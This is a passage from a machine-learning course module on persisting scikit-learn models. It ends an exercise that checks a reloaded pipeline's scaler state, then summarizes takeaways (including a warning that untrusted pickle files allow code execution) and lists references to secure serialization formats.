reloaded_mean = reloaded.named_steps["scaler"].mean_
reloaded_scale = reloaded.named_steps["scaler"].scale_

assert np.array_equal(original_mean, reloaded_mean)
assert np.array_equal(original_scale, reloaded_scale)
os.remove(p_path)
print("Exercise 6 passed. Transformer internal states survived bit-for-bit.")
```
</details>

---

## 13. Summary, Verified References & Navigation

### Key Takeaways
- **The Persistence Invariant**: Deserialized models must produce mathematically identical predictions ($\epsilon < 10^{-6}$) across runtime restarts.
- **The Danger of Pickle**: Native pickle and joblib allow arbitrary remote code execution. Untrusted pickle files must never be deserialized in production.
- **Artifact Packaging Envelope**: Always bundle the model binary with a cryptographic checksum, an input schema contract, and a metadata lineage sidecar.
- **Atomic Pipelines**: Never persist standalone estimators. Always encapsulate preprocessing and modeling within an atomic `Pipeline` object.

### Verified External References
- Scikit-learn Documentation: [Model Persistence](https://scikit-learn.org/stable/modules/model_persistence.html).
- Skops Documentation: [Secure Persistence for Scikit-learn](https://skops.readthedocs.io/).
- Hugging Face: [Safetensors: Fast and Safe Tensor Storage](https://github.com/huggingface/safetensors).
- ONNX: [Open Neural Network Exchange](https://onnx.ai/).

---

[← Previous Module: 11-prediction-and-postprocessing/README.md](../11-prediction-and-postprocessing/README.md) | [Module Index](README.md) | [Next Note: 02-joblib-and-pickle-and-their-risks.md →](02-joblib-and-pickle-and-their-risks.md)
